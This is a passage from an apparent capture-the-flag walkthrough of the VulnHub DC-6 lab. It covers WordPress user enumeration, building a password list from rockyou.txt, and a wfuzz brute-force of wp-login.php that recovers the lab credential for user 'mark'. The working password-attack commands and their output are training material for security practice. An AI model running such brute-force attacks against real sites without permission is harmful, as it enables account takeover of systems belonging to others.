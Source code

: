 ```
[+] sarah
 | FoundBy: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```
## Genrating Password list.
The author of the box DCAU gave the clue on [website](https://www.vulnhub.com/entry/dc-6,315/).
![clue](/assets/img/dc-6/clue.png)
 Let's use it to generate password file.
```
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt 
```
## Bruteforce
Now we have usernames and passwords, use this to bruteforce WordPress.
```
$wfuzz -c --hc=200 -z file,users.txt -z file,password.txt -d 'log=FUZZ&pwd=FUZ2Z&wp-submit=Log+In' http://wordy/wp-login.php

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://wordy/wp-login.php
Total requests: 13340

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                               
===================================================================

000009879:   302        0 L      0 W      0 Ch        "mark - helpdesk01"                                                   

```
Great, we got the password of the user `mark`.
```
username : mark
passworc : helpdesk01
```
Use this password to access wordpress.